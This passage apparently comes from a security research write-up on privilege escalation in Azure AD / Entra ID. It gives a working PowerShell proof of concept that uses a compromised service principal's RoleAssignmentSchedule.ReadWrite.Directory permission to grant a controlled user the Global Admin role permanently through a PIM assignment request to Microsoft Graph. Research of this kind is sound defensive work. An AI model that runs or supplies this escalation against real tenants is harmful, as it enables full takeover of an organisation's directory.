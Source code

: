 
The PowerShell code to leverage the compromised “Harmless app” and assign the Global Admin role to our “Harmless user account” user is as follows:

```
# Set SP info
$tid = ''
$appId = ''
$password = ''

# Set user info
$userId = ''

# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request active PIM role assignment 
$roleDefinitionId = '62e90394-69f5-4237-9190-012177145e10' # current: Global Admin (replace with any role Id)
$yesterday = (get-date).AddDays(-1).ToString("yyyy-MM-ddTHH:mm:ss.000Z")
$uri = 'https://graph.microsoft.com/beta/roleManagement/directory/roleAssignmentScheduleRequests'
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}

$activeAssignment = @{
    action = 'adminAssign'
    justification = 'PoC'
    roleDefinitionId = $roleDefinitionId
    directoryScopeId = '/'
    principalId = $userId
    scheduleInfo = @{
        startDateTime = $yesterday
        expiration = @{
            type = 'NoExpiration'
        }
    }
}

$body = ConvertTo-Json -InputObject $activeAssignment
$response = Invoke-WebRequest -Method Post -Uri $uri -Headers $headers -Body $body
$response
```

By executing the above PowerShell script, we can confirm that the [`RoleAssignmentSchedule.ReadWrite.Directory`](https://learn.microsoft.com/en-us/graph/permissions-reference#roleassignmentschedulereadwritedirectory) permission can be leveraged to assign the Global Admin role to the controlled user via an active PIM role assignment:
